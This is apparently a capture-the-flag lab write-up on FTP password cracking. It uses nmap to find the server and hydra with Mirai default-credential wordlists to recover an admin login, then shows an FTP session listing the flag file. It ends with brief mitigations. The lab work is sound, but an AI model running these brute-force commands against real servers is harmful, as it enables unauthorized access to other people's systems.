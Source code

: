 # adcb1f_password_cracking

According to the course description, adcb1f is in a FTP server.

So the first step is to scan the network to find the FTP server.
```
nmap -p 21 -o scan_result.txt 10.0.0.0/20 
```

10.0.3.197 is our target.

The next step is to crack the password using hydra.
```
hydra -I -L /usr/share/wordlists/metasploit/mirai_user.txt -P /usr/share/wordlists/metasploit/mirai_pass.txt ftp://10.0.3.197


[21][ftp] host: 10.0.3.197   login: admin   password: 1111
```

The last step is to login to the FTP server and get the flag.
```
└─$ ftp 10.0.3.197      
Connected to 10.0.3.197.
220 Microsoft FTP Service
Name (10.0.3.197:jinjia): admin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||51269|)
150 Opening ASCII mode data connection.
10-06-23  01:31AM               246205 flag{adcb1ff5d608bb2b2a9fdafc41ccf0c11c44ba40b7cd2c}.jpg
226 Transfe
```


Mitigate bruteforce and dictionary attacks:
* login throttling 

Monitoring and intrusion detection/prevention solutions(NIDS):
* Snort
* Fail2Ban